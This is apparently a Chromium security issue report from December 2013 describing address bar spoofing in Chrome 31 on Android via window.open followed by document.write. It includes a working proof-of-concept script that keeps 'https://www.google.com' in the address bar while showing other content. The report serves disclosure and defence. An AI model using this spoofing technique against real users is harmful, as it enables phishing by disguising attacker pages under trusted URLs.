 Security: Address bar spoofing in Chrome for Android
Reported by lpil...@gmail.com, Dec 2 2013 Back to list
Issue description
VULNERABILITY DETAILS
It is possible to spoof address bar content by opening a window and immediately writing to that window with document.write(). The address bar is filled with initial URL and not updated on document.write(), which cancels the navigation.

VERSION
Chrome Version: 31.0.1650.59 stable
Operating System: Android 4.0.4; ST21i Build/11.0.A.4.22

REPRODUCTION CASE
http://runic.pl/testy/android/chrome-31-abs.html

<script>
function test01() {
        pop = window.open('https:/www.google.com', '_t1');
        pop.document.write('<script>document.write(document.location.toString().replace("<","&lt;")+"<br>")</scr'+'ipt>');
}
</script>

<input type="button" onclick="test01()" value="Run">

RESULT
"https://www.google.com" in address bar
"http://runic.pl/testy/android/chrome-31-abs.html" in page content
